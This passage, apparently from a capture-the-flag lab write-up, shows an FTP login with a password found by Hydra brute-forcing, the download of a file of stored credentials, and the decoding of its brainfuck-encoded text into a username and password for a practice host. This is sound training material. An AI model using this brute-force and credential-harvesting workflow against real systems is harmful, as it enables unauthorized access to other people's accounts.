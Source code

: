 Hydra found the password: `5iez1wGXKfPKQ`. Let’s connect:

```
$ ftp 10.10.188.161
Connected to 10.10.188.161 (10.10.188.161).
220 (vsFTPd 3.0.2)
Name (10.10.188.161:unknown): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
227 Entering Passive Mode (10,10,188,161,30,170).
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jan 23 01:49 .
drwxr-xr-x    2 0        0            4096 Jan 23 01:49 ..
-rw-r--r--    1 0        0             758 Jan 23 01:48 Eli's_Creds.txt
226 Directory send OK.
ftp> get Eli's_Creds.txt
local: Eli's_Creds.txt remote: Eli's_Creds.txt
227 Entering Passive Mode (10,10,188,161,220,87).
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
226 Transfer complete.
758 bytes received in 0.00109 secs (695.41 Kbytes/sec)
ftp> quit
221 Goodbye.
```

We were able to get a file (`Eli's_Creds.txt`). It contains weird characters, this is brainfuck language.

```
$ cat Eli\'s_Creds.txt 
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

Let’s use this [online resource](https://www.splitbrain.org/_static/ook/) to decode the message:

- User: eli
- Password: DSpDiM1wAEwid

# ssh
